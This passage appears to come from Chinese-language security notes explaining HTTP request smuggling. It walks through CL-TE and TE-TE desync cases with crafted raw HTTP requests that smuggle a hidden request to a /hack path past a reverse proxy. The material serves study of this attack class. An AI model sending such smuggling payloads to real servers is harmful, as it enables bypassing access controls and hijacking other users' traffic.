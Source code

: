       54\r\n
      GET /hack HTTP/1.1
      Host: 127.0.0.1
      Content-Length:5
      \r\n
      0\r\n
      \r\n
      ```

    * 假设反向代理服务器在有Content-Length和Transfer-Encoding时解析Transfer-Encoding的话，则将整体内容转发给Web应用服务器

    * 假设Web应用服务器在有Content-Length和Transfer-Encoding时解析Content-Length的话，那么首先从缓冲区中按照Content-Length取出如下内容

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 4
      Transfer-Encoding: chunked
      
      54\r\n
      ```

    * 此时缓冲区中剩余内容如下，接下来Web应用服务器从缓冲区取Request时取到的Request如下

      ```http
      GET /hack HTTP/1.1
      Host: 127.0.0.1
      Content-Length:5
      
      0\r\n
      \r\n
      ```

  * TE-TE

    * 当代理服务器和Web应用服务器都处理Transfer-Encoding请求头时，虽然都是处理Transfer-Encoding，但是如果同时存在两个Transfer-Encoding，其中有一个Transfer-Encoding的值被恶意构造从而不被处理

    * 同上，恶意请求如下

      ```http
      POST / HTTP/1.1
      Host: 127.0.0.1
      Connection: keep-alive
      Content-Length: 4
      Transfer-Encoding: chunked
      Transfer-Encoding: what-ever-maybe-cat
      
      54\r\n
      POST /hack HTTP/1.1\r\n
      Host: 127.0.0.1\r\n
      Content-Type: application/x-www-form-urlencoded\r\n
      Content-Length:5
      \r\n
      user=2333\r\n
      0\r\n
      \r\n
      ```
